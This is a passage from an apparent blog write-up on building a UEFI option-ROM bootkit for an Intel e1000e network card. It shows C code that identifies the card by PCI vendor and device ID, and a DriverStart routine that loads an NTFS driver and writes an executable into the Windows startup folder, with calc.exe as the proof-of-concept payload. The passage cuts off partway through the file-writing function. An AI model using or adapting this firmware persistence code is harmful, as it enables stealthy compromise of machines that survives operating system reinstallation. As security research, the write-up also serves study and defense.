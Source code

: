```c
  Status = PciIo->Pci.Read(PciIo,                       // (protocol, device)
                                                        // handle
                           EfiPciIoWidthUint32,         // access width & copy
                                                        // mode
                           0,                           // Offset
                           sizeof Pci / sizeof(UINT32), // Count
                           &Pci                         // target buffer
  );

  gBS->CloseProtocol(Controller, &gEfiPciIoProtocolGuid,
                     (*This)->DriverBindingHandle, Controller);

  if (Status == EFI_SUCCESS) {
#ifdef OPROM_DEBUG
    Print(L"PCI %X %X\n", Pci.Hdr.VendorId, Pci.Hdr.DeviceId);
#endif
    // e1000e Vendor & Device ID
    if (Pci.Hdr.VendorId == 0x8086 && Pci.Hdr.DeviceId == 0x10d3) {
      return TRUE;
    } else {
      return FALSE;
    }
  }
  return FALSE;
}

```

Finally, we will implement the DriverStart function which will be invoked once for the e1000e NIC once the device is discovered. Here we will dump "calc.exe" into the startup folder of the Windows install for a PoC.

To dump the file, we will rely on a NTFS driver to access the disk. UEFI has support built in to access FAT file systems so we need to load an [NTFS driver](https://github.com/gfoudree/UEFIBootkit/blob/main/ntfs_x64_rw.efi) which will allow the UEFI file APIs to work with NTFS.

First we try and open the EFISimpleFileSystemProtocol on all the devices (which should be present on a disk device). Next, we open the volume and a file inside the Windows startup folder and finally write our executable data to it.

```c
EFI_STATUS EFIAPI DriverStart(IN EFI_DRIVER_BINDING_PROTOCOL *This, 
            IN EFI_HANDLE Controller,
            IN EFI_DEVICE_PATH_PROTOCOL *RemainingDevicePath) {
  DumpCalcExe();
  return EFI_SUCCESS;
}


VOID DumpCalcExe() {
  EFI_STATUS Status = EFI_SUCCESS;
  UINTN i;
  EFI_HANDLE *HandleBuffer = NULL;
  UINTN HandleCount;

  // Get the SimpleFileSystem handles avail
  Status = gBS->LocateHandleBuffer(ByProtocol, &gEfiSimpleFileSystemProtocolGuid,
                              NULL, &HandleCount, &HandleBuffer);

  if (!EFI_ERROR(Status)) {
#ifdef OPROM_DEBUG
    Print(L"Status %d\n HandleCount %llx", Status, HandleCount);
#endif
    // Loop over all the disks
    EFI_FILE_PROTOCOL *Fs = NULL;
```